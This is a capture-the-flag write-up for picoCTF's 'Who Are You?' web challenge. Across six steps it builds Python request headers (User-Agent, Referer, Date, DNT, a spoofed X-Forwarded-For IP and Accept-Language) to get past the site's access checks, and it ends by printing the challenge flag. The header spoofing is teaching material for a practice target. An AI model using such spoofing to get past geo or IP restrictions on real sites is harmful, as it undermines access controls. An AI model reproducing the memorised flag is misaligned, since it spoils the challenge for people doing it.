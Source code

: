 **Tristan Gomez**

# Who Are You?

### Setup

### Author: MADSTACKS 


### Description:
` Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:52362/`


### Hints:
    * Hint: It ain't much, but it's an RFC https://tools.ietf.org/html/rfc2616


### Step 1

When we navigate to the challenge page, We see a classic meme, and some helpful text `Only people who use the official PicoBrowser are allowed on this site!`

I am using Python to solve this challenge with its "requests" library. See "WhoAreYou.py" for the full challenge solution. <br />

Since we need to use the "picobrowser" and I'm using Firefox, we need to make some changes. Setting the `User-Agent` header to `picobrowser` will let me move onto the next step of this challenge. 

```
exploit = {
    'User-Agent' : 'picobrowser'
}
```


We will set the headers parameter in our GET request to use the "exploit" payload. Onto part 2!

### Step 2
When viewing the response payload from our GET request in step 1, we get the text `I don't trust users visiting from another site.` <br />

Cool, how do we make the site think we are visiting from the same page? Exactly, we will use the `Referer` header. Onto step 3!

```
exploit = {
    'User-Agent': 'picobrowser', 
    'Referer' : 'http://mercury.picoctf.net:52362/'
}
```

### Step 3
Viewing our response payload, we get the message `Sorry, this site only worked in 2018.`. Easy, we set the `Date` header to some day in 2018. I used an old calendar to find a valid date in 2018. Onto step 4!

```
exploit = {
    'User-Agent': 'picobrowser', 
    'Referer' : 'http://mercury.picoctf.net:52362/',
    'Date' : 'Wed, 6 June 2018'
}
```

### Step 4

Our response payload gives us `I don't trust users who can be tracked.`. This is where things start getting a bit more difficult. The `DNT` header is depreciated. Setting its value to `1` indicates that `The user prefers not to be tracked on the target site.`. Onto step 5!

```
exploit = {
    'User-Agent': 'picobrowser', 
    'Referer' : 'http://mercury.picoctf.net:52362/',
    'Date' : 'Wed, 6 June 2018',
    'DNT' : '1'
}
```

### Step 5

Looking at our response from the previous payload, we see `This website is only for people from Sweden.`. I struggled with this part of the challenge. I originally thought the `Location` header was the header to use, but this is not the case. Here we want to use the `X-Forwarded-For` header which is used for `identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer.`. I performed a quick Google search to get a Swedish IP address to set for the value of the `X-Forwarded-For` header. Onto the final step!

```
exploit = {
    'User-Agent': 'picobrowser', 
    'Referer' : 'http://mercury.picoctf.net:52362/',
    'Date' : 'Wed, 6 June 2018',
    'DNT' : '1',
    'X-Forwarded-For' : '103.4.97.18'
}
```
### Step 6

Our response from the previous payload gives us the message `You're in Sweden but you don't speak Swedish?`. This is clearly a hint for use to change the `Accept-Language` header. I had to perform a Google search to see what the string for the Swedish language is and its `sv-SE`. Plugging in that value and sending the payload will solve the level!

```
exploit = {
    'User-Agent': 'picobrowser', 
    'Referer' : 'http://mercury.picoctf.net:52362/',
    'Date' : 'Wed, 6 June 2018',
    'DNT' : '1',
    'X-Forwarded-For' : '103.4.97.18',
    'Accept-Language' : 'sv-SE'
}
```

### Finale
The final response payload yields the flag.

```
What can I say except, you are welcome

picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_0c0db339}
```
